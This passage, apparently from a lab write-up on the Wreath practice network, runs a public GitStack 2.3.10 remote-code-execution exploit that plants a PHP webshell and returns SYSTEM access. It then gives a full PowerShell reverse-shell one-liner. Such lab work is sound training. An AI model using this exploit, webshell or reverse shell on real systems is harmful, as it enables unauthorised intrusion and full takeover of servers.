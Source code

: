 - It seems that there is a RCE exploit for GitStack 2.3.10
- I decided to try the exploit after making some changes in the exploit code
    - Added a Python2.7 shebang to the code
    - Changed the target ip to 10.200.57.150
    - Renamed the exploit.php file to exploit-Incendium.php

<aside>
📌 The exploit tries to execute the command “**whoami**” by default. I will leave this alone to test the exploit.

</aside>

---

### 2.1 Running the exploit against the GitStack server

Results:

```bash
➜  Wreath ./43777.py
[+] Get user list
[+] Found user twreath
[+] Web repository already enabled
[+] Get repositories list
[+] Found repository Website
[+] Add user to repository
[+] Disable access for anyone
[+] Create backdoor in PHP
Your GitStack credentials were not entered correcly. Please ask your GitStack administrator to give you a username/password and give you access to this repository. <br />Note : You have to enter the credentials of a user which has at least read access to your repository. Your GitStack administration panel username/password will not work.
[+] Execute command
"nt authority\system
"
```

- As you can see the user running the webserver is nt authority\system
- We now know the exploit works!

We know have a PHP file on the webserver called exploit-Incendium.php. The webshell we have uploaded responds to a POST request using the parameter "a" (by default). We can use this from now one instead of doing the whole exploit again.

---

### 2.2 Reverse shell on the GitStack server

Since we know it is a Windows server (The user is nt authority\system) and this user is the user with the most permissions on a windows machine, we can get a reverse shell with this Powershell oneliner:

```bash
powershell.exe -c "$client = New-Object System.Net.Sockets.TCPClient('IP',PORT);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```
